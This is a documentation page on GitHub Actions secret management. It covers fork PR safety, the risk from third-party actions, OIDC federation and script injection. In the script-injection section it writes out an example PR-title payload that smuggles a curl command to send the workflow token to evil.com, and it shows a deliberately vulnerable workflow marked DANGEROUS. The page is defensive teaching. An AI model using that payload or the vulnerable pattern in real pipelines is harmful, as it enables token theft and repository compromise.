

repository: adaptive-enforcement-lab/adaptive-enforcement-lab-com · page: secure/github-actions-security/secrets/secrets-management/best-practices/index.html · generator: mkdocs · copyright: © 2026 Adaptive Enforcement Lab

---
title: Secret Management Best Practices
description: >-
  Security best practices for GitHub Actions secrets with OIDC federation patterns, safe interpolation techniques, and comprehensive quick reference guide
provenance: human
---

!!! warning "Secrets Leak Through Multiple Vectors"

    GitHub Actions secrets can leak through workflow logs, compromised third-party actions, script injection, and fork PR workflows. Default to OIDC federation to eliminate stored credentials. Never interpolate secrets directly in shell commands.

## Fork PR Safety Pattern

```yaml
# Safe - fork workflows don't get secrets

name: CI
on: [pull_request]  # Fork workflows run without secrets

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1
      - run: npm test  # No secrets available
```

See [Workflow Triggers Security](../../workflows/triggers/index.md) for fork workflow patterns.

### Exposure Vector 3: Compromised Action

**Mechanism**: Third-party action exfiltrates secrets

**Example**:

```yaml
# DANGEROUS - unknown action with secret access
- uses: sketchy-org/deploy-tool@v1
  env:
    AWS_ACCESS_KEY_ID: ${{ secrets.AWS_KEY }}
    AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET }}
```

**Attack**: Malicious or compromised action sends secrets to attacker-controlled server.

**Prevention**: Only use trusted actions, SHA pin everything, minimize secret exposure.

```yaml
# Better - OIDC eliminates stored secrets
permissions:
  id-token: write

- uses: aws-actions/configure-aws-credentials@5fd3084fc36e372ff1fff382a39b10d03659f355  # v2.2.0
  with:
    role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsRole
    aws-region: us-east-1
```

See [Third-Party Action Risk Assessment](../../third-party-actions/index.md) for action evaluation framework.

## Exposure Vector 4: Script Injection

**Mechanism**: Untrusted input injected into shell command

**Example**:

```yaml
# DANGEROUS - PR title controlled by attacker
- run: echo "PR: ${{ github.event.pull_request.title }}"
  env:
    TOKEN: ${{ secrets.GITHUB_TOKEN }}
```

**Attack**: Attacker creates PR with title: `"; curl evil.com?token=$TOKEN #"`

**Result**: Command becomes: `echo "PR: "; curl evil.com?token=$TOKEN #"`

**Prevention**: Never interpolate untrusted input into shell. Use environment variables.

```yaml
# Safe - input passed via environment variable
- run: echo "PR title: $PR_TITLE"
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
    TOKEN: ${{ secrets.GITHUB_TOKEN }}
```
